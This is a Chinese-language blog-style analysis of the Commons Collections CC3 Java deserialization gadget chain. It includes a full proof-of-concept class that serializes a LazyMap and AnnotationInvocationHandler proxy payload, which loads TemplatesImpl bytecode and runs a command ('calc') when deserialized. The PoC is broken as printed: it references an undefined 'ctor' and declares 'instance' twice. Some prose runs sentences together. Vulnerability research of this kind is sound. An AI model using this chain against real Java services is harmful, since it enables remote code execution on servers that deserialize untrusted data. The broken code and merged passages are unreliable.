

前边分析了CC1和CC2利用链，总体来说都是通过InvokerTransformer#transforme反射调用导致代码执行，但具体构造，先回顾一下CC1和CC2的思路。
CC1
map并绑定构造好的ChainedtransformersetValue方法修改值或者put方法设置值就会调用到Chainedtransformer#transform，从而利用InvokerTransformer#transform的反射代码触发恶意逻辑，导致命令执行。CC2
构造好payload导致触发到InvokerTransformer#transform，此处不细说
利用InvokerTransformer#transform中的反射代码反射调用Templatesimpl类的newTransformer方法
Templatesimpl#newTransformer中调用Templatesimpl#getTransletInstance方法
getTransletInstance方法中先将Templatesimpl的成员变量_bytecode还原出一个Class对象。
然后还是在通过newinstance()方法创建了一个还原出的对象的实例，创建实例会执行该类的初始化代码块，所以导致了命令执行。
该poc中也用到了javassist等相关知识，本篇文章就在不再赘述，可以参考commons-collections反序列化利用链分析（1）和commons-collections反序列化利用链分析（2）
package ysoserial.payloads;
import javax.xml.transform.Templates;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class CC3 {
public static void main(String[] args) throws Exception {
String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
ClassPool pool = ClassPool.getDefault();
pool.appendClassPath(AbstractTranslet);
CtClass ct = pool.makeClass("CC_3");
ct.setSuperclass(pool.get(AbstractTranslet)); //设置创建的CC_3类的父类为AbstractTranslet
ct.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
byte[] bytes = ct.toBytecode();//转换为byte数组
// Object templatesImpl = new TemplatesImpl(); //调用构造方法创建TemplatesImpl
Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
//反射设置templatesImpl的_bytecodes字段
Field _bytecodes = templatesImpl.getClass().getDeclaredField("_bytecodes");
_bytecodes.setAccessible(true);
_bytecodes.set(templatesImpl,new byte[][]{bytes});
//反射设置templatesImpl的_name字段
Field _name = templatesImpl.getClass().getDeclaredField("_name");
_name.setAccessible(true);
_name.set(templatesImpl,"Mmuzz");
//反射设置templatesImpl的_tfactory字段，不设置会导致
Field _tfactory = templatesImpl.getClass().getDeclaredField("_tfactory");
_tfactory.setAccessible(true);
_tfactory.set(templatesImpl,new TransformerFactoryImpl());
//构造transformers
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(
new Class[]{Templates.class},
new Object[]{templatesImpl})
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
// innerMap.entrySet();
//将innnerMap和transformerChain（转换链）绑定，当调用lazymap.get()方法时会触发转换链的trasnformer方法，导致命令执行
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
Object instance = ctor.newInstance(Override.class, outerMap);
Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor=cls.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
InvocationHandler invocationHandler=(InvocationHandler)constructor.newInstance(Override.class,outerMap);
Map map1=(Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),invocationHandler);
Object instance = constructor.newInstance(Override.class,map1);
//payload序列化写入文件，模拟网络传输
FileOutputStream f = new FileOutputStream("payload.bin");
ObjectOutputStream fout = new ObjectOutputStream(f);
fout.writeObject(instance);
//2.服务端读取文件，反序列化，模拟网络传输
FileInputStream fi = new FileInputStream("payload.bin");
ObjectInputStream fin = new ObjectInputStream(fi);
//服务端反序列化
fin.readObject();
}
}
产生漏洞的点在于InstantiateTransformer#transform方法，该方法实现的功能就是反射调用input（是一个Class的对象）描述的那个类的构造方法。只要参数input和iParamTypes、iArgs字段可控，那么就可以反射到目标类的构造方法。
在InstantiateTransformer的构造方法中会iParamTypes和iArgs字段赋值。而且该类实现了Transformer接口
此处利用链分析以InstantiateTransformer#transform方法为分界点，分为两部分:
InstantiateTransformer#transform方法，这一步称为控制反射利用链（方便描述，自己起的名字）InstantiateTransformer#transform方法反射调用后执行到Templatesimpl#getTransletInstance方法中的newinstance，这一步称为命令执行利用链还是熟悉的ChainedTransformer类，iTransformers字段是一个Transformer类型的数组，进行赋值，构造方法中会对该字段进行赋值。ChainedTransformer#transform中会调用iTransformers数组中的每一个元素的transform方法，并将前一次得到的结果作为下一次的输入参数。
在LazyMap#get方法中当factory字段是ChainedTransformer的对象就可以调用到ChainedTransformer#transform
factory也是Transformer类型。在LazyMap#decorate方法接收2个参数，一个是map类型的，另一个就是factory，并且会给factory字段赋值
当调用lazyMap的get方法时就会调用到ChainedTransformer#transform，但是此处有个问题在InstantiateTransformer#transform方法中需要一个目标类的Class对象作为参数，有两种方式
lazyMap#get方法时传入目标类对应的Class对象（这个不能利用反序列化链，后边会讲到）Transformer接口的类，他的transform方法中可以的到一个目标类对应的Class对象ConstantTransformer类刚好满足条件：构造方法会对IConstant属性赋值，transform方法会将IConstant的值原封不动的返回

所以poc中实现控制反射的构造代码如下，在InstantiateTransformer#transform方法中会调用到TrAXFilter类的构造方法
//构造transformers
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(
new Class[]{Templates.class},
new Object[]{templatesImpl})
};
//构造ChainedTransformer
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
// innerMap.entrySet();
//将innnerMap和ChainedTransformer（转换链）绑定，当调用lazymap.get()方法时会触发转换链的trasnformer方法，导致命令执行
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
TrAXFilter类的构造方法中会调用templates参数的newTransformer方法，只需要让templates参数是TemplatesImpl的实例即可
接下来就和cc2的一样了
newTransformer方法中调用了getTransletInstance()方法
getTransletInstance()方法中newinstance方法创建实例后就执行了命令，所以_class[_transletIndex]一定是一个和AbstractTranslet类有继承关系的类的Class对象。
我们看一下_class赋值的地方，当_name不为空且_class为空（所以poc设置了_name），才会调用defineTransletClasses()方法。
defineTransletClasses()方法中，会通过类加载器的defineClass方法将字节流还原成一个Class对象。
然后调用还原的Class对象的newinstace方法创建实例时会执行静态代码块，所以导致了命令执行。
前边提到当调用LazyMap的get方法就会触发漏洞，如果找到一个类的readObject方法，且该方法中会LazyMap的get方法那么就可以,问题是怎么触发？
在AnnotationInvocationHandler#readObject中会调用this.memberValues.entrySet()，
构造方法中会给memberValues字段赋值
AnnotationInvocationHandler#invoke中如果this.memberValue是LazyMap对象，那么就会调用lazymap.get方法，从而触发漏洞。
此处要用到java动态代理的知识，代码来自廖雪峰的java教程-动态代理
public class Main {
public static void main(String[] args) {
//生成处理调用方法(也就是morning方法)的InvocationHandler，
InvocationHandler handler = new InvocationHandler() {
@Override
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
System.out.println(method);
if (method.getName().equals("morning")) {
System.out.println("Good morning, " + args[0]);
}
return null;
}
};
Hello hello = (Hello) Proxy.newProxyInstance(
Hello.class.getClassLoader(), // 传入ClassLoader
new Class[] { Hello.class }, // 传入要实现的接口
handler); // 传入处理调用方法(也就是morning方法)的InvocationHandler
hello.morning("Bob");
}
}
//被代理接口
interface Hello {
void morning(String name);
}
Hello接口是一个被代理的接口，该接口中定义了morning方法，
main方法中先生成一个处理调用方法(也就是morning方法)的handler对象（继承自InvocationHandler），该对象的invoke方法中定义了具体去处理被代理接口的方法（morning方法）的逻辑，然后通过Proxy.newProxyInstance方法生成了一个动态代理类hello，当调用hello.morning方法时最终会上到handler的invoke方法。
此处的poc构造就是利用动态代理
AnnotationInvocationHandler实现了InvocationHandler，是一个专门处理注解方法的类。当调用代理类的被代理方法时最终会传递给绑定的InvocationHandler实例的invoke方法处理.
所以poc中先生成了一个invocationHandler这是真正处理被代理类的方法的handler，然后创建了被代理类（LazyMap）的代理类proxyMap。再通过构造方法new了一个AnnotationInvocationHandler就是instance，instance中的memberValues字段是代理类proxymap。
当instance反序列化时会调用this.memberValues.entrySet()，如果此时的this.memberValues时代理类proxyMap，entryset是被代理的方法（也就是lazymap的方法），那么就会调用真正处理调用方法的类（也就是AnnotationInvocationHandler）的invoke方法，poc中调用AnnotationInvocationHandler的构造方法中将memberValues字段赋值被代理类LzayMmap,所以会导致漏洞触发。
Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor=cls.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
//创建处理调用方法的InvocationHandler
InvocationHandler invocationHandler=(InvocationHandler)constructor.newInstance(Override.class,outerMap);
//创建LazyMap的代理类
Map proxyMap=(Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),invocationHandler);
//创建一个InvocationHandler
Object instance = constructor.newInstance(Override.class,proxyMap);
通过以上分析，我们可以发现CC3其实就是CC1的前半条链和CC2的后半条链，流程如下
LazyMap并绑定构造好的ChainedtransformerLazyMap的get方法就会调用到Chainedtransformer#transform从而利用InstantiateTransformer#transform调用到TrAXFilter类的构造方法TrAXFilter类的构造方法中会调用Templatesimpl#newTransformerTemplatesimpl#newTransformer中调用Templatesimpl#getTransletInstancegetTransletInstance方法中先将Templatesimpl的成员变量_bytecode还原出一个Class对象。然后还是在通过newinstance()方法创建了一个还原出的对象的实例，创建实例会执行该类的初始化代码块，所以导致了命令执行。